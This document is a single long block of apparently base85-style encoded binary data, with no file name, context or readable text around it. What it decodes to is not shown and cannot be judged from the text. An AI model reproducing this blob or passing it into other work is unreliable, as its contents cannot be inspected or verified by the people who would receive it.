H{{^nCO{@-rablFcj-pO&h1)^5i+I0FBoRQkvd+eeLkY<HS!Mc(<ZOm47ECZcAVW;$vV<}*b_igB`8XQ;dDU_2-Pjl<(Ex^AG2aR&gq#c^zQf9j<3x%k6DObu*#!kK|4-HG)un`(d(Nqxwd=Le&1^3)-llG!7G=qX(k`zwm^n$B2SjyLHZQftBb-_EQR#_p{IAHg4(PN@FnOtiQ6yPQigQ^iOn3a#)ckB=j>7GBP>}?0XTF<A*`>IyJdc@dtT8`>xKTQ<V@jdmQcdNZxYn#M=O@-zir62^9F*+|fG!%!~(JFT<K-*jAyXY39{zX|a;r!4J(^_YV?w1{W^>R*&hgKQV3`onaieS4o36eO~a|23CfdnW``;YiFCY$UtF~|RJ?PI7JH3&0<wU3d8&fUa<9hP9M*O#{@Oh#H<<w{OZ*W?tBU&t_TdbZ5DT^*f+Bseg><uA0re13@98zGB~8H%y2zjnm~xr(gkjr$Da9+wmoo_G9_%$`lrDJ(aiDvd77X-^-th)hC>f$aF12+I!q<MP*gLI-Z<hrJW$x+FzcmF&@=KP%KxE#Qj{fRDNS2?OLZ`kG>rOTS4s<@kjtcd_m(&{*I|$9VD4Xj}H>{WZ6Ww56A|tqNq2rC5cVdGi{LA6#HX13i+E(vI+H<ayvMr7De^H^x6`ye|9W-TS_l-^*7hilqkA@RTdsF9@so5;is@vyK_}DO4JF%FxKmY{{O4p{=3!P;X7@(Vwteq5IH@;Y7>c>XVPk5CIvb7V)(vsqGzVn$l7+r}^NC?i%P9Onj_voTKYDrMyCueCz5^IK>c;61-XHI7BJ<1Js@*`3t+lg33TA6A&xlXk1Nc)R!TPj3clRnAzbTq`mt%iC#V2mqYhjHjiPgF?bQC*XM@cXA6yaA`)yZ6~I8iyJnrBvV`W0l=n7JqCBbu4^!A*8joHb<AqUt>so8$p8``gemiX)GN6lVhsNHcX>&06_3r325-yUY#_nX^%gsl2`nATSZ(A=!a_xO&gDU0bx4iy-!r%WPhSp>tUe~*fy)RPyLRW_&NL*HENSt*<{!1&E7Hp@A2sdZAv~(VSV3lzObjYftj2tGO;a+}G^Nhn&$Rf?_1_ClDx@&htbyLl=wSFRu*ub@lf`!TS*Gw|geJ0IXXE~CqcCXFT$bc`e{9zBLb-5m3X-*Dh*Q;#>lu353rQXXG^C5@71f+exVR<k!`&_l*gM2J<(bv>mZ{kc4NhQuw@GODEr-L5ij~zb|{_e!oF#&5n%IDfOal3Ya1eAB$#vOms8Z5vhr256=l@NKYP1mE-czK%q(Nw+lie5#CC;u*;vVlh?i?>c$jsz>C3IF*l4mb<Q-k>*Lsu>bz7jq~PNKSA<1fbBZ=cm3VT}t>&+U>^pxc9i}X2{eou5?YY%Gxo8DF1X2qrC$4Rk|oPAp;O*0$nLtY{-EgHOp4@z9n&OXaK{HKVAh{jXdgn_`7}G=4LI@i>fYhVtCMjE*J$4CIG)5xUu|wCqeqgNxNp%UwV;mBb`h-Y6<-%9w{^us;2W@!tUb*0TgCq3x!Nweitt-?<8v+NrriG5z|h)8o`pn#S}H*FqlusRhtw3^bZbIQPkZ~9KOmjtWXJ%hI+SOUZ~8jVD~1Kq7fqket&H-ahH$;d+q#i;|7fFt)Ym7FP3{>aQm5ju*lkd%A(!R3@^#5bdHp`XHK-xZz|FW1^P>>j*u+;Cq;KJ<AXWjQCMmC%NPLvUSPLfzTZU?I8Ml}l@6ibhYgF)ThkoJ70kaYARrXV=|V^BPg<WCukPsV^HU7#E8>3I?nZ@v^%DVjVAYKj2431N?{sGr6mZ5&g;R!Of3|s!(Zx&EY+mEd2ilirPKI1|zC-b$9Vl{mN;WqP2!`Lh^z_~HiH=B+EJjzp{ZnU%j0?mc-dFB^tnFgS`WNacWwe#0#an@mgP!5rF@&PnqZFf#IIm$P5pO{Y=#B~2hFiQa^RrpRtPkj{h~eUed57`na%jr`x6B)sWb}KVLHB7w8PR{QfMxJzal?)V>`pehWg~FN`O8*s{PeR(DN<W9UVqOPQp1&5eLQWutExP4nUUb_QFa1CR-SVg97;xD^uTj6c2oyGswE#2BnEzZN_Qsp_`)j@HjDPh#nhGtPtf0u4n{oE=uu(Rx-R3GCXPKgUA5UXGJ;@q1m@R)sM0N7hpDU1SgKxyVLugBX0{9zLq#KTAjCxnUuAVAsAJWs)ST56*%haQlCkHDV2A@Gf}?hBMuQTl-)Tu(YCoo52p6nXUmduY_BOuMCSk5%{K1Xq<OdUm?%!0iW6>IVw3-#Kez<?~HZ-TZi>hceE0?Pe<SG$EPWweUNd(*7iF{vEhuxIF3!hHO>u3;#WSYs!^*2F+S>p<MwySuyFb*};ufG0;YX^sxj`GAIL0(x(i=VptgwdE4M8pOx*aWi!s3Ct>k%$GiPtNw@pTp_1eZb6YNNZ%Y7=5@mCd>+87?vEtiSaWjV!qEffD>uy_*C}PBGQVoWXS-SDu}qRNcf}_myNV5M!9Vq|7<6juPhyN=VxByBKS)H>=XMfWH&GG714-IWF<yDf>!e)6&1CkSAUg;WF#$lI?OgarCN=&r|#*T{#!xy6`Wk5(4AJAonLsUL3>L+a_WvVm*>B@Zk3xWfQ;EnCmAl{l|bxX<CE)xj&IUX-fZgr^t^!{@BpeovsR}Gamy@7kXd82DHrQ-bTbzXr{eN+q_0l4OY-^$*{mO~F^_P|FRx};$L6YAiUzHIopA@Uaqi9EcWn~gPgqbIM8RLQ+#;CxFIMFYF0|lZSJW3qzB9cqHPC$ylZ@%TCTrN)A6WheG(mxUC|fvyl2bYB=^h_J+>m}=2-EM8+oYRp1!9mTz`Bi6Iw?HmC9RtCtqw=evge4244nts9+aA)6;r-On|jGL*L0_5A8D|yXk#3zOyBaGK5JGAY=`twEHJ^sm1It161fY8#^)v*RgCH-Yxyy5%=xbY)b*}s7u=AstX7t=f<$zcZV7)G!nU4=_SngV%IW@cZftU@Mb+C#7bb0Q{+?Q+>-EwB(@{{^$0@JwKsaXoJz3Taii@JXdIYji4q_Jt*e^#(RmChE*h_)df{#yd8)UJ<ls70(+S2gRy~Y#v47hbwWi2RxQ<(vq$qlP+1c0>#m<pnvC^={2bwN?C?<|TEmA~<VP=)Ft)S$D^l`km2h`w3H+u@Unr!89}PV1Kc$Z#+-^cxVuoLyg!h!$<0U`&&I{Q=3<CvF0rcl^Lo22l}|WLEPVz;JoKACf)=9pu2i*>A(ZiG1Tc`*@I~J>VSY^e}IoUQZ%0jZ1{iMiUK$BRnKk+;z(qUyS{UBV9v(T;QYQO5(BL&DH*)Rp(FO=inYF<O{31Z+V}32oH*u+IEYz1*MWEsrQL;S=Vq1W<m-rCk(Br%C%%%dDlkeX7D@S8hsL5xbUkwhAFg`mpEyZ`s{WCOwS~z@qUz{P)@SywJNmHnEy9V(lVNz_^7PyrzAfjH=qD(<4-Avg{poT2J76OL5GaQgW}rqUvOD&;Lu){u7c^dre9XB2@AwH0agsd<Vu>@7T{tj=Fmyh>hrUkZZcQz94uVR9SSx@>{LmJlHZ}z<kOUu1w>htlisQbTX`WjOK={fLpOZ9jHR$obS{B`#2ETxC}$lj-~vlt#1hQ&>lw<ju=$ZIwy>`E_N;y4l`g8^6YO(i3jAXr_)htzchu6kK1oz%_qsUVZ=Xtovv2p2=REkiW_#&J+lh7?-7?+h0{A>s77tlhhc-MEt}<ayM8N(l)Ok8MUd^+4GA#4{x?}>XX!ionHK^AW!=Q^N)c;|9Js5Z<bnR<mPo0De-T=3p`dW(<Vj39ANCJJK;6j3@F^p-G81+L%b!3De{XAQL18fQb63c)k?0A{gupP{0+~9Er(}sAP@o<9XO2bEMV1W!!uH`GGfh^R(#rCV2*=Dlh#HmCr1XubgI&V~$VJ80}*=g##GN!P#0ZD!9TnA?{-OI=E3dC#OiMDJc`)SmICSV&}vFy9<>pqO!CEz$in#9f$adg!AQ`YjYX$S)+Y)QNxZ<xn&o=BX6*Nn{1);V9I|3nq`Ub+f!Y>uQI0P7HyT3}U>=OH%RlX*?UJs{G@-C_(~y)a0?6$){rE1mxf7}n9cL|quYR8WhqA%Mo%7l>V1rp*q_-SZ0~3mY7=QZ}%!lo0bwYS3{5MJtC{y<5l--&gGe=ej6+uyhgL>8iTUZxjf3^351KgBtnaWJ-c{?5SPyQi*7AT8$zWPsrYjlr!v@b8moT%fdjg9?Y=p2mE|wwpm{+H1>#-h|?nOECh~14lEn=4&v`X(v<z!GW+KWK`)4RNaGRzA>9oNqPXO%p?UM?1qhn#I>l#Yw4<oFrsWzBi5B0}^h()6V_>d0n<g-|WpZryb$=tUxMbBeXFPbvHwTTxIIX`Bu#a%5Lae2ME3#V;8gBF!E9Jx?vl{0Qb~?Bx_6GYaTe$ZZGiaNTfjYCl$CMWi%b8ggZ8PHNYf9?r3SsA911~#eIyj(u`Ehew%zpru`#me(fkjEmvq0u5p{HYmh;kW+Muz^n1H>vzb>7OLZ1oHItj>PS055O}))07@2O{RAkpi+D=fWlSpSCp5LR3bffW?u&{pAKjH?xd2EyC8nHwk;?JVuR-qctQVj3xsZd};+Ncv|yRGK@Mnm^i2-2H@AjcRI&~?cU7;_@E2yAblx&`vmS@)yQjbn(4PJVvf4ud#q}Ot7WP;zZ=D_NT)d@I-8OWw?7aAtn3(ONo^^aF}bAI4n06uSrrW_ar#S@lY4%DlXn~2DMFKP$am(i?Ez0WV9`Fc1{=I8FTcu#K~6@#YWM%ACUEINQodHluO{I|ywv}yd1M1^2XV!(zNfl%3UcIptj%ba6m$#P*>xm^$7LTN6}GX4C4(FZv#C+4HOUd*zzvU%Q~9@IEbhvy<0lHZM);9rOxtb>f|iPM_cnXH>vj+W4g+Wmm_CHptfH2+LzAUGiglO0(geO}FK+AC+$HOgZkW4JKC6pUEJR@R2_{3m$3MJZ`PNj;q-E2SzRU#<f2ZQmN#PWGGCB++_Yr{vYMNf9BnHXLV9l^}{rHus8fvbLCjnH5d}3k@B*o1I|58n{g7Sek0B6-GM5w~j!$HR<-c<}#+Rs{7z;&*h^U-l{@V$f;OhkdG4l6kSYiLse&?c+E79}Zb%k~}d`#SSGJpKVE5obR_AkxF$_WCE4P@?&EUn^hJvf9Js>(Y;-rLrYXNZ9jAn~37a#H*QPeOOU0ax1I7fhme=0Sjw=A8;ddxWhPHc1kXYZcfR6Z5U!!alJ3V*eV)auJL*_vNF0bxAt)&2I_phN#82C?1VGAhrM|Ka9_}rJd2Wzv>ve@M8#gFU3ARrK2b9aOAd}o%x!`g^*~!#r^8((Ru%u2OiKweDC*uzK%19GkD6L=h9*;<xA1t=7+TLr=)eZLAIz($xgIcu#i2my)c^e(GIg<_w0-zkBV_Q2(?4BoEIfQmaZez`2X6IIrVv8y-S^=mcOh){bz~m<^v;j&{FNIu=iOZPqCanyDhRsT83t3ge#+LK(Iml%`Cbt|2K_s5A#E<ja!|T)_}BhYiGYdTA(Rl}NZB)|QWpwt)lR`NNE_QMZJcPHW%Bt3)W1xgb|ycs!at2E*jOcQ8(Z^dFF?<XE=oG&wN437OJxBTT$pWQ2wB~EHAN}1)w;5R6C(%S=AhsVOcW-rdfw;pgB?>)W9|$KDW!shB;g$2(6Z7Tq-ZP)IZhOjUlD+?b~lif-B=BQH%193@^;h!ar(+Tu^F0V>cl;A_oj$gR_gP%4H7uyCKC~OIw-<UOQ}RqtC;4YzO|EBybac2Z$G+v_$ITrX!1z+T>yV$eK+Octd`fCao7cDvt*vFFYX*C)(`UEnL@OED<RhUf&^xK7Bo_P7i5uL)<oV*Jc~&%3da;;jN?57y~5}-z>{6qx?bwBB1T2*4<Ly$7Rr#AE*Q^tP-Em)ye58)XiSUqN&9(@qVm9M1Zmb)bVE*`Kd~#fc0d!z*M8wh9UlmH&eXyyNEnTr)O|g-9lh!TXibvaHY&pam-nNyETm@yoQHG_<YA@OzbQ}ai9}a@7<V_#t9LL(^_|NL?oNmsx97><-b-mrnB{f##u}6zn;VgVzimS|BUnuwB^_)O>UM_aun>$K$n-uD$H6JLvI-v_qQ72`CR3a;jP}f7>8G?q*n6HvZTnC6?_x4cWW&1zUmsr*K|gPhusMKJ?!|*zA4({`+dWKW=2_0C-a@WW*R7<I9&VAGDrqE_HeA&cGu&m5!*kn*Hc6uJ16{E_ZR!18T$3^CYV+2~Tsf2jaoDgJUnT##Je{a>6LaQ$W^@pMretegARr>WEi;=6U1ux?z+CoIQf-n<jbINGZcd~PELuWQuXkTj)g#WFpOyykzCjp@Jn`a<bMYMl%cjif;7gs;1C=p6`w?RzHteXT3^o6k^d|-2YLNCrLS*-x(r6_>))eZanqNfsg^%8Pv=ah}@3<x?WFPSp1N^B!4QqY+7CZB*g~j588rwt`(5N0^l04C0i}Vc93dwd7K5Uy7B$~sjVi=NR<NpF-(no?!Zo4war<*)TPn)5cjZ=O|SPj0gQQ74k^gd+W9gzW;SQxm3DrZ){{=Br7$ds6BW?l~xkWt83+-hvM1{QkSVnMu*^>z}>fVFf+c#7EyyXOUoK40dMAqhI|6i;%Zr$;?7h$3Hg@~;O;oQ%0XA=lh`@Ls-8ONiUyHk(rg9oJVogENqac{3^MRmXt(oT3?eN?bJ^JZQrleEaY$`}(28$M%%3Ax~wYGo;M;##Mp4|Ffj&vALH56G~tm`r%_J>r+g~LH`0FBBDs|{gmM=nq1V-Q_{O_j!ynCk4j>WZ{Cb_A0FFbievGV7(%AW=r$@b+qieX3*1z0;ZTa++yVD=eZ9Z-jDZY=V=$2w!;`$vcz3n=sIMkG?RZ;PA=SlJ2fN*IDuB-{wLY7EOcs$bIkx;tDAB%XD=0r|a`XZ&TADWs$1=FLT;QBu#*}W)Tvw2`X3~Dml_N>XFy{(iwlC~&&!etVDB|5trmIlt`z~WjlX-;0faM>W-$An>UIkBogZQar+S~KLHTqf_&^twDFopWI8hbqd68DY5#!(+b0aCmlJh;@LW*y(Dd#SZo3wUSt<d0UtI`%6*-uT0Z<ZvXs@$Yb}{2)Tt%Obq+Oe=tFLq4n0%eRwsPSTyb$aI3RQ`dsoqF0u4dIwJ4{WP3;eJ7vLUu)}`mB>%Nt$u8C6yg|rRZ>qtG6|z;U_Q(rZQxKtlp7&c#oxJg*~uEP;JNi!&~J}%-u0#UZLc^wM6|NJX_s)`db@4LE(`?zJC+iOsyNR}B@_gdw;W1wJ0aLSxO0`eoL60(?RmNzF((TGC)&q`fE8_T{?;0}AA!uHOYzOq7NdVEiyt`&8@iq-NLN&GFDgZ7%)A1GB6^dcl?z0xJDqTA<nHCMk?s>(a>R>dBcl@-Zm(?-wIl|8T$qu5{win|c{<_AThlFGot*SB?9~07b&L;D#t2PxT*|*qs)xVv;&~rEO@53MU!qx>|F@1smSmE?zr8fiOpIuiD=i`X)>GT)l>0JN8Uhy1VaL8jJ2VD2M1R5<g!Cvv%aRlKj%6{jhv=wXhttJ}zGQ6X!h}pZLI#tm=YK8T>mOeZ?o|eRw5I{W?Btm?v`QV_lM#E2&P#L;{_UlFVG<En5vRY`#A@s-yP@E=YfPB}Hwq9Jz0xM8)mDO5ty}tob9vWzBC=p0rJqSWZ2ep??1l5xMgxmv@wm|zrDY^#WE1oaO(UO~E^IsdhP>_^5n5v%<Zu3!Cs9I)A?-UZKb1M?MmlpxV=`8}KGuP*Et_8|+NBACxzru`!4jy~sB@9mikYft5sHx&O()k-p-dUK*QHEU$~7cM>-E@vqg!GwqCQo4kr!gqe-_f#&rkCrs2jem)G1xfK=IZRo9M%q<9D_1CwW}lHAR~6@%F-M6@|R#>xuT@CyPUur>_rA28)>JoV4jCrH`sAXUcE{TJVmt2W7p!G5>W9E?M848KE4qzRZ`btc=UtP!8u=#9_@K7huED$cHVjqP<Z_1Q}tu88AgZr<&$%?S;qT6k4>kko}DA$B2r%`fg$T@c`>REJP+{hR5s1p|8^a)!23*Cx>1@A`m`v=30h@t-hI)0Fz@WaeQ3X`#uxS?E1IkVLF4sTQ}RnQ4(6ZVB!`GI+|WEea(34;jVJtF#+$|n@R^((G(MV$Hm<VmvV{7#wuSFxWU9E^3g<tgMUx~a^bupR|SYkB>QG}tiAiKy!+q?y+4#+rAfF`Le<^T%wk`f+v^lEUDJae8h+=>AMj+e!w2ljoaWqkMt+~sk7MeAwBqBhVy>(C)ir0>W;8p9l0}u2(2i9pS-%ZXdW)raxEV`=58G!bI5)pO-`dn>Lnsg+9$I|c?@P(bJM4fAVGq8&%C`gF$5$<P0C@CfUN8JkyGGKg+*0GG?@1lF`6?UFt>IZ!12Uf>P*bVYi2=Y9PQM98^LI$<SYs#dlePIE=qBPFsU?5V+RGJ->{y9EyA!tbUHA+o5<_NPHQk}hB@}ApfM8N#8<G|{j9GM_wsgKGp+j=}It>73Ogg697|l@ImhRoouT{_qeFg{_l^uL&xvK;SL1GmM$!i}=+(3YkOMFdQkuxh{`rbCs`O(`$z06Wx$XSvxP5tUymJ_G3Kcy+HL<;`mDFWKw1tQe>Ec$wSW9w<#xihA+!$HfbH~XpRh@d+gL32HaS437pgo8_aieRgL2?>Kb<%SR%h>m7erU_~EK}9YDzelO@?V*clO+a^Rt5zBpFD9H$%1Os9svCNP`MlK(<q7q7x^I*+%xTpP%0kpQRn!sa4$2AVtRaXU>&neneC1lID4x+_lbG?@=q625N}bds5S)DOMXm%!&Pv2AYn#7nK<^HZTfp5kC3|OwXfP#30UVvSyNV;3phC`KnP_hZ8lo`zHT?j%f#nAI?vXnnq>PYY5^IK~UZQ5z0Ao4=!+N9S|4&tvkM}LLgMnvju|Tyu&Gw;^a-;Xg<lj+erJ29(lM3u~y7PvwV<@5kBc4qjadVrE%zM$1<luyzJP$so6!8&Ms6S(XlBcm#EZ})Ku-85;c!JVdotoFxtb<izj_Gs~Y`U<6e6aNJMX&F59mxQs2QhoBrp;riCtyGIdpi$xmc{~a9%5YpcL3V>FKwv4cYZzd>3Y_?ROrgLDIl6MyzwE8rxdd|3mD_Ku*U6CLPr{)|Bkcx4!x_6&NWbMKe2m6Uz&)=n9VHt{VvM(o3O{P2gNEM++^kl0dRS|fu>~3Qg-u*+E6oV#ce5#Z`IA*eFI9WmYpDTq<UZ-e5#&k&*3L$1RIOu)->rrJ3BRfN8@Mggl`V7DNoHJyOJx%D}R~trj(@&+_z@J?e50kFGyCE%ibW9gzieM@y3Lgj@G<@p?ewz_rdB?WhZ8vnj$O?V2U#W`CJ_+_Wql)`zLQi3I2xGLp;Kon(iwUBbL(F!;us1*kt0~LtNz}h*vx{r|0yMVKig#tGoDEKIJEKE@BeEzk^4*Wa|M~suZ_yVxCuEwHx-EROl569P0Zz)1_I*4Bk!up+DD0sr9^B%}r^{W-{~ky0WSSv_P#jBZ8)D_o?-Q55u=wRrsmHA5%gx?iKgMR!rKQ<C8IHSJBF6#*@mUrJ&`_bND^KeA&Ml8I2j&yP(rs1k1X$5<@?lLz+T(wJ+Va0l?7O{eT@Ba{fs+O|gfqx=B=~Aime=k<O*|vrG=9cu=`R^`a^U8ea-M+DSEf`J#2Z3nF?73KrJ#TWX%0Xe4Pt;gg3T!Ya$_H}pV-w<cuKm6(6Ar#s^_jMG(ntPu@@Ng!2bUetG<Xx1b1!43-AchF-V#iT}<1%0WzuJO;}Cdbub<Eos<5ApfueN;_TYmP&Cx-4S~99ShQok>4ex;dGBfF#bNPr#g5g68^SWX^L=c^uhBe<6sdAhCP*z)+3<Nrg547pd-u^Hqmhx1z;qM}rs9%K?Ke&AFH`!ry%s!lIA&GEDE4=gNpszVh?9J%-kzNpa0R?+<GF`!(ZFBL|)DUPX+cUr2G@toHViO*{LE??}i@BQ?z;`v#|8!8aG)J$bCnngLbI)`@Ae<rT=q*Eh@vR8TDiPbvnj^TjH<;Fv(Gi7X3Xb<<*LkVsh{?N>hw+_9K|OwMu|a8zpqR|_h!IIjWlHibIKZ2(xjM?7g42)Iwh!@s|I^?W1!4-V9jKpM3#0clHg)MD194hKZ$)ZJwwkNw~oWgG_jTkCI<urQAN@KLV;VYTZu2}V+LvF2s1XYE|gi&2n0=N=HRUBuyT4rlgTE<qNx0$bU*WUR8{S?X<ztI_J04@X+b#v}yAadL0wRn@Wt3Q!-giF7G$-@cd{1B!<2=%x%|u&R<o3N3}iC6QDWc$ln&(&Q9ffEIa|XP|v$=t6*AW`c@>&i_ArddVV0M!KyI40Q?F5=9?RodcR2aPp#|a~sTS1O=Zh1W+|nkg)91!CQG_>9&W0#`4mSvJTx1S6O_anBj0`<5)E5Hm0KSY9Z3-m^-h^ZiluzEH1Z|_Q^hz#iyi|j0&NcK{o;5I(DI|XyVs2v7mVae^?(Xv^*XW7U+yts>GeT;@iXnWDg`?QAVQpWTZ*VO&ZwR(Dq#~&ms(qx*N-W^f7~C;rZ|{+B$KrSxjDKn)=x58C|?*G6{E2&9uO0HfPDu3owp*6c%{u*$i6al{vXs@*l$Fxv66W_;ui-ZS(%)9b3vE{Gu6J5+EOI&$ErqcQWg4rBWv3kS80SIxHEyMJ8G9mXW#>&6Hc`<$Ld^VmyDO)B9;S4N}QWKUs#Cu-OH5k>EQ}g7IXbZqU(F={DK`nGCkwcXQ~0(0Ok^;Sn0%s!x{kK8t3G@YDS)$LM}}CI(jWjXQ=^);m9IUH@fiQ3>vJufd^C+TE*Daodsr-<w?xT*u5<(%~!AE(7em|3@j;ujf%jx+-N5p2Q4~;qH3%aq7pT_3454>3S^tm@(F*R{noi2(OwOgD{5G?ds8w2YkWQN=9U4W*Ce(RUTKDmHw5p$lQw_x4T$Pj+qiE4eq{ZNw4`3sIa#^0JtjFv(dm09FKA9?)-LqC8ouCT07|=CS=tctXDplu!exp6mr!xcdw!7lqW&4OUx9)|6tv@S)v#e!=RjJrt%i%IMCr4F<gulV^aPcXLlF9o}{PMoQ?AEl&jq`(kz|2n2X^y&B+|#Xcn3bN0&kOoq;nNP!BFmOhBZ&<lft3ZQ#oaqZ`!rs1nFY)%~ktHhHZ(lsj!Q&9BR<2V$Y8S0epg9OORmSb0Vnm9gX+*sJ~}-%Vi2IA53ihN$!qKXM3MhTD)p5`an!@Yo__4?pNM&TCX~c}oJ;G1M8DjwA;$s;N@YSQGE3OADDfo5w9DrKR#Is2|%1CD3#j6<syFJe6KFii{~kJz1ofnHr2js9lYIz4X%?sfk0<pf%H<5KWkbAW*E&RArc$f;7I-RttvNi}kz|rfx1akiLsqXS<vM4X<B#JSQaIDL$A{dZbgY_f<0NRdOr!_Z8KJ&@kO2%puhQjq0(TLS)4yM#ZROl=e?%@UPZhHH-yRkq!f@0u?1LoIH!kn+|yBK^=b#M$cr_X)C+bI5>#1UoKC{_Y`mWf8JyRJ)r5}_to}0h;OYDlVSYcrGH>sffsxFV@!AXPpaGJw_t%ubCkE|^hOCU`Jm>Zowx6oiyn5@G-VTY$_K9>)8M@8=@s*>I&;%;8puf)Z&41)<kFNR&w9Rk3MuvJ9-oj29)KYepb=do?j~lRE==Q{7Kc5xg~%E+x{BFs)6*rd!4(QbNqn%rrd`rMnC2rrq(ZpI2i7S$iJHAJQYy{GEj3<?0t#<Mi#{uLYq--}6@x*_#a*aT+S8Z*!HKQgJS|^3X3%eQAW_Ul(tvisF<P%ADE;;LIW`)uf>&y;=HNftIAzBp<Q6%^`N<GEnjFu1O;V1DaoyE|2|Bql-7`)$obb>-y9(~o`s6cKx7rfs%?Cp;H`%UyP6})xgj=;bQ*`xV4o_gB;YXeUf8Ng=(mp7rsk^z2X56*JUOFI8(ABr>+F=(?4ikPPKb}X~ejjQD52$*-33k%R5stFW)-JV0T7#G|&WWt!V4n5$sh2NW<&*vRe!6jQ{)wdU|05ZIYG!I{G(I12wy`hJip9sJJZg<^L%^xrNKQfyMO<v40q&1gx|Tk5P@S->+9vPc>UEia@`Tx=B70FwT^Evvj7NYkh#ddoe-M<ozjZ2N^OK#AN9!WBTL{I~59%rP*Lh3fLC8P$;33WXMx-0%wPMOg30Cwvh?Zt6eVA;){k_@UVmn1qv;O*d7Fql{X(5@vcj*DqV3?pBtvk?+=rwc8xtM@)dpTy*D=XOPonD=2hMH<_e7jIx97?klKijjXD>mW^&_H}~#^g!Y&tt|lVf|?y9Nq0A=#mAzYN~?8@r4T~9lF)$Mp!{`GxAQ1Rq{Z90-b|U&^99}VtTPrA^j{wu>BM|`FSC1aO&^M>XYHCR}@dn>q+IRMPw6#$j@DBsqbbE;+SO6UY3~@4W!N2d*#{b0$8(>mhr@<kxQBo>Y}cwNsRm4)B3mfBRYeQ;aYk@@av3oZZInl1`lX@C_Ccxv5D0@0CCgtzaU1oU`L<&8?b_IZCa`|&|mTrnl*`sbnkifmtGN*gr;Ost!Ya`SnbBAoG?*`w1K#Qds0(`(-nEAGFrf_q^Xa+3Vm}J57iI9gPl2qpMZdkH$e4bAMrU7y=a}=_7WRjsxNQ>kNA{t3{sI2xM%jyW$Yv36~|4)z~`UJFyH9=U4?3ddQgg0*K9I4XsMKivxea&CXS&NDIDRUyZK`zQ5;oCw@F(1hR1@BO=6`uF7;7C)O3N)44%uAT9iMesLz=?rPx+<L0^Vpn7|IIjNFKcBKO22Bp{!?$WZnfp_+FB!xgx$fUF300tb)~j$J&6s6>rH%vc9=6(cy=1RRXH#|nHTZV19!(W#c5>gev9e{WZid$$c9X({IgmUu&<p-RcM(J4X~R~tw<BaZQ#3Tt_~s`YjLP$XT|%Ywk^`QQ~31B+bqYJ1Cy#-|arl-tUq8i*zpBC_W&oh_J+Sw=Bd=oIBsDo0Tj?0jT|KmO=&?5F|hw0q(^U3ce9NUi{9qz#p<5@dh<IuubT3|LSwVu`=F{Z0dk?)cWFv$kc%Xku(sV9Ho*4qvhSyP`<C`Q#G1Nrp=Wd)(~J!e!G#Bk;Prv)j0tn;&fM1CD3*S+1AR&O)6;*hgvwxdNCEbfvE)r?w-XwP`o>8H1TAB_r-?1F<)787-^~@GiD}aR~D}qV$(9(52|#E4P}}9?&?m_Ni0e^jyP2HE2zutHIGE+spmLI+@V)C|vs0OIV9iEiJ6ans!8w+v;7`qd1{%5QC?Kq^~m1A(W}y!QTf44SXc~eDIwx2#0O_nP3BmhaVwzseltx<0WA7lj>Jlkw1eZlowA>+Xwz{QypOjuI}F18v48Ystc~n@S=w<TEw0jk|Xc`z`HD3Cio*a?juuHQgxEF5NoLSIk|tQP?S)`ljREoyig)pXl6kVMZJg2MiKcIeN=QhH#Bcv_}5AAAI4oL32Qd?l9YMEQzl3r0*t)cV=x7C*(LVR4+b3ML@)9nP~7!dz`g93>h4vaM*^iIgu-8W%m?bt^I@SSG0zEzR>oJluZm5&Trf?YEU4DgZAP=MU^r=^Us|E0m4E%34dh!UM8kmlBYJz<rYZ84nl>a_f4r>kI4I@FM?a9xCC5_I<_2D<O=0NH*lA1~ttC*r&H+kcQ4XQ&OuC+vw1yKj!2(w)xg(4=S>w&t3?vB@QE5#`33oxi#SZUG7jaGB<We)&stGyh{*12Qtm};$nCp63tuubI(i{-HRtdyHKzK(UIbN*ZOB;?ku@MN*1NP3%!Mt`WoHG`eNQdWram7(%*YWMP;`+Ybi7K1>xCUQbNI3Q-QFA6E1w9=XyShe0XiF9CfGk}R@mMRmK}dmTADegBb)lT73I8BYz*nr_CvR<><48;zWOZ3%mjnoN4?|AA224SX#i^RRUG_l8#<insg*~(e&oep<6<<1;-cY7Y6KVZvkO32`pggV&`b{j_e92W)+8a>Druo(t@S$~c=O9BTzvJ|xwbH3JAi1k%vIHrJM`mY!e0}?G8NcZh1BA{?(uK{Vn-EK3({}4wn#o<m>}Li(hU%6j=V6nLos0LSF%M#)0wqB@-5*Bac9pe6swa$}1?^7vhUG)&HBHV6R8HrGlLVe+Apv=#*f<6K0~%!Ne?BO-7S%lV(O#DUwH;DFCSO2J>=0<q2y7BK(;&$ZvAkNMOR_&jqk?E8Rgj%YX*k80F9QoieyK*q5OA@1%o#l%L-2bfco&K;I!Y+AM2B?Hl6=g=Bl~3cm(6vE#jmY0J0MuZQ6g#&1b2`?)x}A&QEMcptXqZiNyVpgnO`Y&IIm}w!V%Ra=-8XZ7Ta{^v;AhqX9^%?^a^?kZu@#41zOuyAAu!8Y8RaPZnK1o^t!EKPRS}zCF)uHpY>`6D-TK47bR=tneNPLF`{r(eM!jM8+Xc$6p9clwyx_(HGr#b5UX}}FR1~m>iN>NVJyITuUTaLy`G_v%%a1eyE*|oy3ozgrQ)Po2oc<71*w|gW{=|F4255Q`H}sYmIs94zG?}0UWa7_TJKf?kTEdvcWEd4QPB5+gqQHLY!6~8KUpED>)m*c=)ww_=%>WBe%e{?oGDGtUFnuJxb#13J=n;>cTrNMJeP2kYq_G!4Y!WI2wnOpAs5c8g4%x#+mAovaB{Qr)!*Z3yaoNaewnvU%E(gC__nj+J}qXO+H!IqHWrg>P2tTrPrf!cjnQdl=s20Ul5(1k)4bg4v=5QE$6-{g0GzRZ{}3$I!}U_3=8p=V@BP__O=^-xnk|S6pTCH`LSem+Yiw2nei8dmu<2uKf<k6D@i0384LL8)xdys2Oi+0zZK(zF9!bUIPY1i9y@*}PuR@EPHmA7(1&hbT@(ZMmiQuWmsfz26F97d32<R=JsaN`t#o{82Gv)Dh^vyk0E!1;gftZ2@vzbEMgb@jU=}@_nxEjJMwb>8I9aI10iJs6@j$+(Qbx75xWVTJnMi_|P9TM_$b0e=p(N#?u7YFVGKTCVYz!Z}K`qccT({5lraMvK_g3OZH!$E_pe)e_R!7MWJQAjXc-U=`VK2Z|5ILK7CSg#APCLDafzoQKd%DcEP9$K-#645Blj}+V}B5|;39wfXq^TuEF3xCq>VIINWsQ9?jCy09F!yo}9S&0sa6S+gA7fxa&902Y+N*qHYu0KUjF&#y8eK{LFxG<DGSWhcr<rYql1*;T(ihPORDCIMEAJtLyjIAW%RN9FpNP>tM6V4%gnworL5#-L?r{KSTVttUWCMA>a2D3O;+HwVd#ej$qXsBZKfP_TVFYCzD7F2v<PtFRD1oHM9&-ty(ae}{JvO(CI_wT3Lt~2PnU4iHv1noZLI)#IZi-P^$%dI}m(!FKtFyW&(zPgIXlbwKsf2Yx@I?-p7fZyYq